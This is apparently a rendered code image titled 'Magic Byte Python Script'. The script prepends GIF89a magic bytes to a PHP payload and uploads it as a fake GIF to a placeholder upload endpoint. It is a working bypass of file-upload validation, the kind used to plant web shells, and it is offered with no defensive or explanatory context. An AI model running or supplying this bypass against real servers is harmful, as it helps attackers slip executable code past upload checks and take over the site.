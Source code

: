 ### **MAGIC BYTE PYTHON SCRIPT**

```PYTHON
import requests

def add_magic_bytes(file_path, output_path):
    """Prepends GIF magic bytes to a file."""
    with open(file_path, 'rb') as f:
        content = f.read()
    with open(output_path, 'wb') as f:
        f.write(b'GIF89a' + content)

def upload_file(url, file_path):
    """Uploads a file to a server."""
    files = {'file': ('fakeimage.gif', open(file_path, 'rb'), 'image/gif')}
    response = requests.post(url, files=files)
    return response

# Paths and URL
original_php_path = 'path/to/original_payload.php'
modified_php_path = 'path/to/modified_payload.gif'
upload_url = 'http://[DOMAIN-NAME]/upload'

# Add magic bytes and upload
add_magic_bytes(original_php_path, modified_php_path)
response = upload_file(upload_url, modified_php_path)

print(response.status_code, response.text)

```